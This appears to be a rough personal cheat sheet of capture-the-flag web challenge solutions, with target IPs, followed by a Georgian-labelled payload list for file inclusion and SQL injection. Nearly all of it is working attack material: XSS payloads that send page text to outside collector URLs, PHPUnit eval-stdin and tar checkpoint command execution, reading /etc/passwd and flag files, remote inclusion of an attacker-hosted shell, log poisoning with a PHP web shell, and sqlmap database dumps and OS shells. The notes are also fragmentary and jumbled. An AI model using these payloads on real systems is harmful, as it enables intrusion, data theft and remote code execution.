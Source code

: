 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password

7 alfa-cookies- https://drive.google.com/file/d/1YjUzKJJnrR0L5DNr3H8GSDFRz73d6ekM/view

8 nondiff-backdoor   grep -r "shell.exec"    34.159.62.179:30876/?welldone=knockknock&shazam=cat flag.php    CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

9 schematick sqlmap -u http://34.159.62.179:32027/index.php  --cookie="PHPSESSID=e40e1c0f2baba9b6b6d07033355f0819" --forms --columns


10 elastic python exploit.py http://35.198.97.185:31763/ /etc/passwd
11 libshh  https://github.com/nikhil1232/LibSSH-Authentication-Bypass

12 authorization  dirsearch -u IP                     curl -X POST http://34.159.62.179:30798/auth             (aplikacia) ModHeader: Authorization        JWT   <TOKEM>

13 PHPunit  http://35.246.139.54:31380/composer.json    curl -X POST --data '<?php system("id"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php


curl -X POST --data '<?php system("cat /flag.txt"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

14


https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown
slightly-broken
ping-station
downloader-v1
puzzled)





































საბაზისო LFI:
text
http://example.com/?page=../../../../etc/passwd
http://example.com/?file=file:///etc/passwd
PHP Wrapper-ები:
text
http://example.com/?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/?page=data://text/plain,<?php system("id"); ?>
RFI (Remote File Inclusion):
text
http://example.com/?page=http://attacker.com/shell.txt
Log Poisoning (Apache/Nginx):
text
curl "http://example.com" -H "User-Agent: <?php system($_GET['cmd']); ?>"
http://example.com/?page=/var/log/apache2/access.log&cmd=id


sqlmap -u "http://example.com/?id=1" --dbs
sqlmap -u "http://example.com/?id=1" -D database_name --tables
sqlmap -u "http://example.com/?id=1" -D database_name -T users --dump
sqlmap -u "http://example.com/?id=1" --os-shell
